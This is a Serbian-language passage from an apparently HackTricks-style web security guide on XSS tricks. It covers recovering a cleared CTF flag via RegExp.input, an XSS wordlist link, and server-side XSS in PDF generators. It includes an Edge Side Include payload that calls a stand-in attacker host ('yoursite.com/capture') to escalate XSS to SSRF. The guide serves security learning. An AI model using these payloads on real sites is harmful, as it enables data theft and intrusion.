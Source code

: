 ### Regex - Pristup skrivenom sadržaju

Iz [**ovog objašnjenja**](https://blog.arkark.dev/2022/11/18/seccon-en/#web-piyosay) moguće je naučiti da čak i ako neke vrednosti nestanu iz JS-a, i dalje je moguće pronaći ih u JS atributima u različitim objektima. Na primer, unos REGEX-a i dalje je moguće pronaći nakon što je vrednost unosa REGEX-a uklonjena:

```javascript
// Do regex with flag
flag="CTF{FLAG}"
re=/./g
re.test(flag);

// Remove flag value, nobody will be able to get it, right?
flag=""

// Access previous regex input
console.log(RegExp.input)
console.log(RegExp.rightContext)
console.log(document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["rightContext"])
```

### Lista Brute-Force

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss.txt" %}

## Zloupotreba drugih ranjivosti XSS-a

### XSS u Markdown-u

Možete ubaciti Markdown kod koji će biti renderovan? Možda možete dobiti XSS! Proverite:

{% content-ref url="xss-in-markdown.md" %}
[xss-in-markdown.md](xss-in-markdown.md)
{% endcontent-ref %}

### XSS ka SSRF-u

Imate XSS na **sajtu koji koristi keširanje**? Pokušajte **unaprediti to u SSRF** kroz ubacivanje Edge Side Include Injection sa ovim payload-om:

```python
<esi:include src="http://yoursite.com/capture" />
```

Koristite ga da biste zaobišli ograničenja kolačića, XSS filtere i mnogo više!\
Više informacija o ovoj tehnici možete pronaći ovde: [**XSLT**](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md).

### XSS u dinamički kreiranom PDF-u

Ako veb stranica kreira PDF koristeći korisnički kontrolisani unos, možete pokušati da **prevarite bota** koji kreira PDF da **izvrši proizvoljan JS kod**.\
Dakle, ako **PDF kreator bot pronađe** neke vrste **HTML** **tagova**, on će ih **interpretirati**, i možete **zloupotrebiti** ovu ponašanje da izazovete **Server XSS**.

